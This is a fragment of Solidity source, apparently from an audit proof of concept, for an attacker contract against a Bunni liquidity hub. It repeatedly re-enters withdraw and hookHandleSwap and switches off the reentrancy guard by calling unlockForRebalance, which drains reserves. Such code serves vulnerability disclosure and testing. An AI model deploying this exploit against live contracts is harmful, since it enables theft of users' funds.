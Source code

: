 ```solidity
        vec = _vec;
        if (vec == Vector.HOOK_HANDLE_SWAP) {
            amountOfReservesToWithdraw = _amountToWithdraw;
            poolManager.unlock(abi.encode(uint8(2), address(0), amountOfReservesToWithdraw, msg.sender, true));
        } else if (vec == Vector.WITHDRAW) {
            sharesToWithdraw = _amountToWithdraw;
            hub.withdraw(
                IBunniHub.WithdrawParams({
                    poolKey: _key,
                    recipient: address(this),
                    shares: sharesToWithdraw,
                    amount0Min: 0,
                    amount1Min: 0,
                    deadline: block.timestamp,
                    useQueuedWithdrawal: false
                })
            );
        }
    }

    function continueAttackFromMaliciousVault() public {
        if (iterationsCounter != reentrancyIterations) {
            iterationsCounter++;
            disableReentrancyGuard();

            if (vec == Vector.HOOK_HANDLE_SWAP) {
                hub.hookHandleSwap(
                    key, false, 1, /* amountToDeposit to trigger the updateIfNeeded */ amountOfReservesToWithdraw
                );
            } else if (vec == Vector.WITHDRAW) {
                sharesToWithdraw /= 2;

                hub.withdraw(
                    IBunniHub.WithdrawParams({
                        poolKey: key,
                        recipient: address(this),
                        shares: sharesToWithdraw,
                        amount0Min: 0,
                        amount1Min: 0,
                        deadline: block.timestamp,
                        useQueuedWithdrawal: false
                    })
                );
            }
        }
    }

    function disableReentrancyGuard() public {
        hub.unlockForRebalance(key);
    }

    fallback() external payable {}
}
```
